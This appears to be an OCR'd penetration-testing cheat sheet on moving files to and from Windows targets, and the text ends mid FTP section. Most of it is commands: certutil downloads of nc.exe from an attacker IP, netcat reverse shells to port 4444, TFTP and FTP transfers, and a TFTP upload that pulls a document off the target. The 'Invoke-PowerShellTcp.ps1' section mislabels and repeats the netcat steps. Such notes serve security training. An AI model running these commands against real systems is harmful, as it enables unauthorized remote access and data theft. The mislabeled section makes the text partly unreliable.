 # PowerShell Empire
# **File Transfers**
## Linux
- TFTP
  ```bash
    kali@kali:~# mkdir /tftp
    kali@kali:~# atftpd --daemon --port 69 /tftp
    kali@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/
    
    C:\Users\Bob>tftp -i 10.11.0.5 get nc.exe
    ```
- HTTP Server with Python 
  ```bash
    python -m SimpleHTTPServer [PORT] 
  ```
## Windows
```bat
certutil.exe -urlcache -f http://10.10.10.4/file.txt file.txt
```
- Netcat
```ps1
# Step 1: Download the file
certutil.exe -urlcache -f http://10.10.14.3:8000/nc.exe C:/Windows/Temp/nc.exe

# Step 2: Trigger the scan
C:/Windows/Temp/nc.exe 10.10.14.3 4444 -e cmd
```
- Invoke-PowerShellTcp.ps1
```ps1
# Step 1: Copy the script from nishang library
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .

# Step 2: Download the script in the target
certutil.exe -urlcache -f http://10.10.14.3:8000/nc.exe C:/Windows/Temp/nc.exe

# Trigger the reverse shell
C:/Windows/Temp/nc.exe 10.10.14.3 4444 -e cmd
```
- TFTP
  - Kali installation
  ```bash
  xonork@kali:~$ sudo apt update && sudo apt install atftp
  xonork@kali:~$ sudo mkdir /tftp
  xonork@kali:~$ sudo chown nobody: /tftp
  xonork@kali:~$ sudo atftpd --daemon --port 69 /tftp
  ```
  - Tranfer binary in Windows (-i flag for binary tranfers)
  ```bash
  C:\Users\xonork> tftp -i 10.11.0.4 put important.docx
  ```
- FTP
  - Non-Interactive FTP Download
    ```bash
    #In Kali we will set up a FTP server
    sudo cp /usr/share/windows-resources/binaries/nc.ese /ftphome/
    sudo systemctl restart pure-ftpd
    ```
    ```cmd
    #In Windows we create a file which the instructions to download nc.exe
    C:\Users\xonork>echo open 10.11.0.4 21> ftp.txt
    C:\Users\xonork>echo USER xonork>> ftp.txt